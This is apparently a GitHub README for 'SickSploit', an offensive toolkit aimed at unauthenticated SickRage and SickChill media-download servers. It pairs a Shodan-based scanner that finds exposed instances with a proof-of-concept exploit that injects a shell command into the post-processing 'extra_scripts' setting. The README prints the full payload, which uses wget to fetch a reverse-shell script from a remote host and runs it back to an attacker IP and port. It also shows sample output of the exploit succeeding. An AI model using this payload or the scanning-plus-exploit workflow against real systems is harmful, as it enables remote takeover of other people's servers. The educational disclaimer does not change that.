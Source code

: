 # SickSploit

Collection of tools/scripts to exploit Sick* instances (SickRage, SickChill and similar forks.)

## Introduction 

SickRage/Chill/Beard are tools to automate the download of TV-Series using torrent or Usenet.
The programs offer similar functionalities and are all exploitable using the same technique.
In this repositories there are several tools, 'sickown' is a script which uses Shodan API to track down possible vulnerable instances of Sick* which are publicly exposed on the Internet.
Sickspolit is a POC tool that exploits a vulnerable instance.

## SickOwn 

Sickown uses a simple search query in Shodan to find open instances of Sick* and then attempts to also remove false positives from this list by querying the targets found.
At the time of the writing, 1834 targets are found.

Example usage of SickOwn is:

    $ python sickown.py -h
    usage: sickown.py [-h] API
    Use Shodan.io to track down vulnerable instances of SickChill/Rage
    positional arguments:
    API         The API_KEY for Shodan
    optional arguments:
    -h, --help  show this help message and exit

## SickSploit

Sicksploit is a tool to provide a POC exploit for an open instance of Sickrage.
The exploit is easy and relies on a vulnerable feature. This vulnerabilities has been reported on 15th December to the maintainer of SickChill (the fork on which all the tests have been performed).
The exploit consisting in injecting a shell command in the 'extra_scripts' which are executed after post-processing downloaded files.
Post-processing usually consists of renaming and moving downloaded episodes of TV-Series, and Sick* offers the possibility to execute a custom script after each post-process.

The way I use to exploit this feature is by injecting a Payload such as:

    /usr/bin/wget https://raw.githubusercontent.com/Sudneo/sicksploit/master/shell.py -O /tmp/shell|/usr/bin/python /tmp/shell 192.168.1.200 4444

This will clearly download a simple reverse shell which I have also included in the repo and then execute it with IP:port to connect to as parameters.

Example usage:

    $ python sicksploit.py -h
    usage: sicksploit.py [-h] URL RHOST RPORT

    Exploit open instances of Sick*

    positional arguments:
    URL         The URL of the sick* instance to exploit - host:port
    RHOST       The IP where the exploited instance should connect to.
    RPORT       The port where the exploited instance should connect to.

    optional arguments:
    -h, --help  show this help message and exit

---

    python sicksploit.py http://192.168.1.105:8081 192.168.1.200 4444
    [+] Trying to get current values for some config items not to break post-processing.
    [+] Parsing current Post Processing configuration.
    [+] Successfully Parsed current configuration:
        naming_anime_multi_ep: 1
        naming_abd_pattern: %SN - %A.D - %EN
        delete_non_associated_files: on
        naming_sports_pattern: %SN - %A-D - %EN
        process_automatically: on
        mediabrowser_data: 0|0|0|0|0|0|0|0|0|0
        process_method: copy
        sony_ps3_data: 0|0|0|0|0|0|0|0|0|0
        tivo_data: 0|0|0|0|0|0|0|0|0|0
        alt_unrar_tool: unrar
        mede8er_data: 0|0|0|0|0|0|0|0|0|0
        file_timestamp_timezone: network
        naming_anime: None
        tv_download_dir: /home/daniele/process
        naming_anime_pattern: Season %0S/%SN - S%0SE%0E - %EN
        kodi_data: 0|0|0|0|0|0|0|0|0|0
        autopostprocessor_frequency: 10
        use_icacls: on
        rename_episodes: on
        unrar_tool: unrar
        unpack: 0
        naming_pattern: Season %0S/%SN - S%0SE%0E - %EN
        sync_files: !sync,lftp-pget-status,bts,!qb,!qB
        naming_multi_ep: 1
        postpone_if_sync_files: on
        allowed_extensions: nfo,srr,sfv,srt
        nfo_rename: on
        unpack_dir: 
        kodi_12plus_data: 0|0|0|0|0|0|0|0|0|0
        wdtv_data: 0|0|0|0|0|0|0|0|0|0
    [+] Starting to exploit http://192.168.1.105:8081.
    [+] Injecting payload: /usr/bin/wget https://raw.githubusercontent.com/Sudneo/sicksploit/master/shell.py -O /tmp/shell|/usr/bin/python /tmp/shell 192.168.1.200 4444
    [+] Exploit succeeded.
    [+] Trigger a manual post-processing of /home/daniele/process to execute the injected payload.
    [+] Manual post processing correctly scheduled. It might take a few minutes to actually get executed.

## Tested on

The exploit works on several versions of SickRage and SickChill where no authentication is configured. The same exploit technique would work on any SickBeard version as well.
However, I performed my tests on my own instance of SickChill Version: v2018.11.30-1 and SickRage Version: v2018.09.17-1. 


## Disclaimer

No public instances have been exploited in the process, nor I advise to do so. I have made this for pure educational purposes and I decline every responsibility for an eventual misuse of (part of) this code.

